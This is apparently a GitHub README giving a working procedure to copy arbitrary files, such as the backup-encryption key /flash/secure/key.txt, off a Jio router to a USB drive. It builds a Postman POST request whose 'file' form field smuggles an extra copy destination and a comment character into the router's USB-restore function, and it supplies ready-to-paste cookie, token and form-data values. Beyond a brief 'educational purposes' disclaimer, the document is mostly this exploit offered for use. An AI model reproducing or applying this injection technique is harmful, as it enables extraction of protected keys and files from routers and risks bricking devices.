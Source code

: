 # Way to get any file directly from your Jio Router's Filesystem to your pendrive [Working as of 3rd January 2023]

*Disclaimer: - This is Only for educational purposes, No one is responsible for any type of damage. Any wrong step might brick your router. So be aware.*

## Requirements:-

1. Chrome Browser
2. Postman (or cURL, if you prefer that)
3. A Pendrive or a Portable HDD/SSD that can be plugged into your router

## Notes:-

*Here we are copying `/flash/secure/key.txt` which is the encryption key used to encrypt the router backup configuration to our pendrive.*

*The location of the the pendrive root in the router is `/mnt/vfs/admin/ITSYOURAP/` (Remember to replace `"ITSYOURAP"` with the label of your pendrive)*

## Steps:-

1. Open your router admin page (`http://192.168.29.1`) and login via your admin credentials.
2. After logging in, copy the value of the cookie `TeamF1Login`. You can use the Application tab in Developer options to do so.
3. Go to the Administration > Maintenance Page
4. Press `CTRL + U` (If you are in Chrome Browser) to View Source of the page (Alternatively, you can Inspect Element)
5. Find the Backup/Restore HTML Form. It should look like this:-

    ```html  
    <form name="tf1_frmBackupSaveCurrentSettings" method="post" action="?action=backup">
    <input type="hidden" name="token" value="sometoken">
    ```
6. Copy the value of token element from the form. Here it is sometoken.
7. Open up Postman and create a new POST request to `http://192.168.29.1/platform.cgi`

   In the headers section, uncheck `Accept` and `Accept-Encoding` header.
   Fill up these headers in the request (Use the Bulk Edit option and copy paste these):-
   
   ```none
   Cookie:TeamF1Login=yourteamf1logincookievalue
   Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Referer:http://192.168.29.1/platform.cgi?page=backupRestore.html
   ```

   Change the `TeamF1Login` value with the cookie value you copied in step 2.
   Now go to the Body section and check the form-data checkbox. Click on the Bulk Edit option and copy paste these values:
   
   ```none
   button.usbRestore.statusPage:usbRestore
   file:/flash/secure/key.txt /mnt/vfs/admin/ITSYOURAP/ #
   token:sometoken
   thispage:backupRestore.html
   ```
   
   Remember to replace `sometoken` with the value of the token you copied earlier. Also replace the first section of the file param with the file you want to copy. (We are copying `/flash/secure/key.txt` in this case)
   
8. Now Click on the Send button in Postman to send the request.
Within a few seconds, your request gets completed and now you have the requested file in your Pendrive root. 

***PS: You can also copy directories using this method. Just change the first section of the file param with the folder location in the router.***